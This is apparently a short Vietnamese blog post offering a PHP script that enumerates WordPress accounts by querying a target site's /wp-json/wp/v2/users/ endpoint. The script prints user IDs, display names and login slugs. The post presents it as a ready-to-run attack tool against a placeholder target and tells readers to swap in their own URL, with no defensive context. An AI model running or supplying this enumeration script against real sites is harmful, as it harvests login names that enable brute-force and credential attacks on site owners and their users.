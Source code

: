 ```yaml
---
title: Tiết lộ Người Dùng WordPress
date: 23/06/2021
layout: single
header:
  teaser: /assets/images/wordpress.png
--- 
```



## Mô Tả 
Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài 



## Hướng dẫn
Thay đổi url trong đoạn code dưới đây 
```shell 
php file.php
```
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/  )
```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "http://tagert"; # url 
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}


?>

```
![](https://www8.0zz0.com/2021/07/15/15/128822449.jpg)


## Chúc may mắn :D

